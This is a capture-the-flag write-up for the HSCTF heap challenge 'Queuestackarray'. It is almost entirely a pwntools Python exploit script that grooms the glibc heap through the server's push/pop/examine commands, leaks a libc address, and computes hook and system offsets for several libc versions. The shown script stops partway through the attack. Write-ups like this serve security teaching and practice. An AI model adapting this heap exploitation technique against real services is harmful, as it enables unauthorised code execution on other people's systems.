 # Queuestackarray
## solves: 12

In this problem gives the C source for the server that you have to pwn, and the compiled binary (although you dont actually need to binary it speeds up testing and makes it much easier).

## TL;DR:
```python
from pwn import *;

io = remote("queuestackarray.hsctf.com", 1337);

def malloc(direction, index, data):
    cmd = "push" + direction * int(direction == "left");
    io.recvuntil(b"> ");
    io.sendline((cmd+str(index)+" ").encode()+data);

def free(direction, index):
    cmd = "pop" + direction * int(direction == "right");
    io.recvuntil(b"> ");
    io.sendline((cmd+str(index)).encode());

def view(index, subindex):
    io.recvuntil(b"> ");
    io.sendline(("examine"+str(index)+str(subindex)).encode());
    return io.recvuntil(b'\n')[:-1];

for i in range(7):
    malloc("left", 2, b'Z' * 0x08 + b'\x91');
    malloc("left", 2, b'I' * 0x09);
    for j in range(0x10):
        malloc("left", 1, b'D');
    free("left", 2);
    free("left", 2);
    malloc("right", 1, b'S');

malloc("left", 2, b'Y' * 0x08 + b'\x91');
malloc("left", 2, b'Y' * 0x09);
for i in range(0x10):
    malloc("left", 1, b'\x91' * 9);

free("left", 2);
leak = u64(view(1, 7)+b"\x00\x00");

# 9.0
#hook, system, base = 0x1eeb28, 0x55410, leak - 0x1ebbe0
# 9.7
#hook, system, base = 0x1eee48, 0x522c0, leak - 0x1ecbe0
# 9.9
hook, system, base = 0x1eee48, 0x52290, leak - 0x1ecbe0

print(hex(base));
print(hex(base + hook));
print(hex(base + system));

for i in range(7):
    malloc("right", 1, b'');
    
malloc("left", 4, b'Z' * 0x8 + b'\x41');
malloc("left", 4, b'I' * (0x8 + 1));
malloc("right", 2, b'');
```
